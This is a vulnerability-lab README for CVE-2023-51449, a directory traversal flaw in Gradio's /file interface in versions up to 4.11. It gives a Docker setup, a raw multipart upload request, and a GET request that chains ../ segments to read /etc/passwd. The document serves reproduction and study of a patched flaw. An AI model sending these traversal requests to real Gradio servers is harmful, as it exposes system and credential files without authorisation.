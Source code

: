 # Gradio `/file` Interface Directory Traversal (CVE-2023-51449)

[中文版本(Chinese version)](README.zh-cn.md)

Gradio is a Python library that allows users to quickly build visual web interfaces for machine learning models without writing any front-end code.

In Gradio versions 4.11 and below, when authentication is not enabled, an attacker who knows the file path can use a public URL to access arbitrary files on the server running the Gradio application.

References:

- <https://github.com/gradio-app/gradio/pull/6833>
- <https://github.com/gradio-app/gradio/security/advisories/GHSA-6qm2-wpxq-7qh2>

## Environment Setup

Execute the following command to start an application built with Gradio 4.10.0:

```
docker compose up -d
```

After the server starts, authentication is disabled by default. You can access the application at `http://your-ip:7860`.

## Vulnerability Reproduction

First, use the upload interface to upload any file and obtain an accessible file path.

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--

```

![](1.png)

Once you have an accessible file path, use the `/file` interface with directory traversal to read arbitrary files from the server, such as `/etc/passwd`:

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36 Edg/100.0.1185.36
Connection: close
Accept-Encoding: gzip

```

![](2.png)
